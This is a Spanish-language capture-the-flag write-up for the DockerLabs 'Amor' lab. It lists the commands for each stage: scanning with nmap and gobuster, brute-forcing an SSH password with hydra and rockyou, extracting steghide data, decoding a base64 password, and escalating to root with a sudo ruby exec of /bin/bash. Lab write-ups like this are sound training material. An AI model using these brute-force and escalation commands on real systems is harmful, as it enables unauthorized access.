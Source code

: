 # DockerLabs - Reto Amor

## Descripción del Ejercicio

Este reto forma parte de la plataforma DockerLabs, orientada a practicar habilidades con Docker mediante laboratorios clasificados por dificultad. En esta ocasión, abordamos el reto de nivel **Fácil** llamado **Amor**, cuyo objetivo es desplegar un contenedor vulnerable, realizar escaneo, explotación por SSH, análisis de imágenes y esteganografía para obtener credenciales privilegiadas.

---

## 🛠️ Despliegue del Laboratorio

### Prerrequisitos
- Tener instalado Docker.

### Descarga del laboratorio

```bash
scp -r amor kali@192.168.1.12:/home/kali/Documents/
```

### Instalación de Docker en Kali (si no está instalado)

```bash
sudo apt install docker.io
```

### Despliegue de la máquina

```bash
./auto_deploy.sh amor.tar
```

---

## 🔎 Escaneo de la Red

### Paso 1: Identificar interfaz de red

```bash
ip add
```

### Paso 2: Descubrir hosts activos

```bash
sudo netdiscover -i docker0 -r 172.17.0.0/24
```

### Paso 3: Escaneo de puertos

```bash
sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2
```

---

## 🌐 Enumeración Web

### Fuzzing con Gobuster

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

---

## 🔐 Ataque SSH con Hydra

### Ataque de fuerza bruta con Hydra

```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
```

### Conexión SSH y navegación

```bash
ssh carlota@172.17.0.2
cd /carlota/Desktop/fotos/vacaciones
```

### Descarga del archivo

```bash
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor
```

---

## 🕵️‍♀️ Esteganografía

### Inspección de archivo

```bash
file imagen.jpg
steghide --extract -sf imagen.jpg
```

### Decodificación base64

```bash
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo
```

### Escalada de privilegios

```bash
su oscar
sudo -l
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
whoami
```

---

## 📘 Investigación de Herramientas

| Herramienta   | Definición | Funcionalidad | Casos de Uso |
|---------------|------------|---------------|--------------|
| Docker        | Contenedor ligero | Despliegue de entornos aislados | DevOps, pentesting, microservicios |
| SCP           | Secure Copy Protocol | Transferencia de archivos segura por SSH | Migración de archivos, backups |
| Netdiscover   | Detector de redes | Descubrimiento de IPs activas en red local | Pentesting, análisis de red |
| Nmap          | Network Mapper | Escaneo de puertos y detección de servicios | Auditorías de seguridad |
| Gobuster      | Fuerza bruta en directorios web | Fuzzing de rutas en servidores web | Enumeración de contenido oculto |
| Hydra         | Fuerza bruta por protocolos | Descubrimiento de credenciales | Pentesting SSH, FTP, HTTP |
| Steghide      | Herramienta de esteganografía | Ocultamiento/Extracción de datos en imágenes | CTFs, ciberseguridad ofensiva |
| Base64        | Codificación de datos | Ocultar cadenas en base64 | Transmisión de datos, CTFs |
| Ruby console  | Lenguaje de scripting | Ejecución de comandos con permisos | Escalada de privilegios |

---

## 🔍 Variantes y Explicación de Comandos

(Se explicarán en detalle en la siguiente sección complementaria del README)

---

## 🔄 Diagrama de Flujo del Procedimiento

![Diagrama de Flujo del CTF]()

---

## 🧠 Conclusiones

Este laboratorio permitió aplicar múltiples técnicas de reconocimiento, escaneo, acceso remoto, esteganografía y escalada de privilegios de manera práctica y estructurada, reforzando competencias clave para CTFs y pentesting.

---

## 🖼️ Fuentes e Imágenes

- Capturas obtenidas de entorno real de laboratorio

![despliegue](despliegue%20maquina.png)

![Diagrama de Flujo del CTF]()

![Diagrama de Flujo del CTF]()
- Diccionarios: `rockyou.txt`, `dirbuster`
- Imagen descargada en `/Desktop/fotos/vacaciones/imagen.jpg`


